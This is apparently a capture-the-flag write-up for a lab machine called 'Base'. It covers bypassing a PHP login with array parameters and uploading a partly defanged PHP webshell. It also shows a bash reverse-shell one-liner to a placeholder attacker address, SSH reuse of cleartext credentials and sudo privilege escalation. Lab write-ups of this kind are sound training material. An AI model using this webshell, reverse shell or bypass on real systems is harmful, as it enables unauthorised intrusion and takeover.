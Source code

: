 # Base

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  Vulnerability Assessment  
  Custom Applications  
  Source Code Analysis  
  Authentication  
  Apache  
  PHP  
  Reconnaissance  
  Website Structure Discovery  
  SUDO Exploitation  
  Authentication Bypass  
  Clear Text Credentials  
  Arbitrary File Upload  
  Information Disclosure  
  PHP type juggling  

#### Description 

#### **Enumeration**
  22/tcp : ssh : OpenSSH 7.6p1
  80/tcp : http : Apache httpd 2.4.29 ((Ubuntu))

  Checking the web application, there is a login portal but none of the default credentials work.

#### **File System Enumeration** 
  Checking the link to the login portal we see a relative path of <code>/login/login.php</code>. We can try to check the parent directory of the login.php page. 

  ![login directory port 80](./assets/parent_dir_login.png)

  The extension <code>.swp</code> is called a *swap file* which store changes to the buffer to avoid multiple instances of an editor. We can use <code>strings</code> to read the .swp file and find out how they are comparing for sign in for both username and password. They are using <code>strcmp()</code>. 

#### **Login Portal Logic**
  The program is using strcmp for comparing inputted username and password string with valid credentials. However, they are also checking to see if strcmp() evaluates to 0. The problem is that when an empty array is compared against a stored string, it returns *NULL* and in PHP, *NULL === 0*. 

  ``` php
  if (strcmp($username, $_POST['username']) == 0) {
    ...}
    if (strcmp($password, $_POST['password']) == 0) {
      ...}
  ```

  So when we intercept a request and see how the username and password are being sent in this form:
  ![login.php request unedited](./assets/login_php_unedited.png)

  To convert these request parameters into arrays, we can change them to look like <code>username[]=admin&password=pass</code>. This allows us to login and we can see that the home page is prompting for the user to upload files into the base server. 

#### **System Configuration Enumeration**
  To find out more information about the system, we can upload a script for checking additional stuff and upload the file. The next challenge is to find the path for where uploads are stored. We can write a Gobuster command to look for other pages:
  ``` bash
    gobuster dir --url http://10.129.95.184/ --wordlist /usr/share/wordlists/dirb/big.txt
  ```

  We find a directory called <code>_uploaded</code> and see that our uploaded .php file is in it. From there we can run it and gather the information we need. 

  ![phpinfo system](./assets/phpinfo.png)

#### **PHP Webshell**
  To be able to run commands on the target machine, we can upload a webshell script:
  ``` php
    <[?]php echo system([$]_REQUEST['[c]m[d]']);?>
    # defanged bc Win Defender keeps coming up
  ```
  
  To test, we can run a query <code>id</code> and see if it returns something. 
  ![cmd_webshell](./assets/cmd_example_webshell.png)

#### **Reverse Shell**
  From here, we can begin to establish a reverse shell. First we need to change the request method from GET to a POST and change cmd into a parameter. To establish the reverse shell we can pass the following bash command in the POST request:
  ``` bash
    /bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
  ```
  Then encode it and send it. After, open a netcat listener on the port listed which should connect to the target machine. 

#### **Lateral Movement**
  While further searching the target machine, we find another user <code>john</code> that could be the system administrator; and a set of credentials present in the login directory file <code>config.php</code>. We could stabilize and upgrade the terminal, however from earlier we saw that port 22 is open so we can try to use SSH. 

#### **Privilege Escalation**
  To search for what the john user account has the privileges to run, we can check using <code>sudo -l</code>
  ![sudo -l output](./assets/sudol_output.png)

  We can run the find command and luckily *for us* the find command can execute things as root. 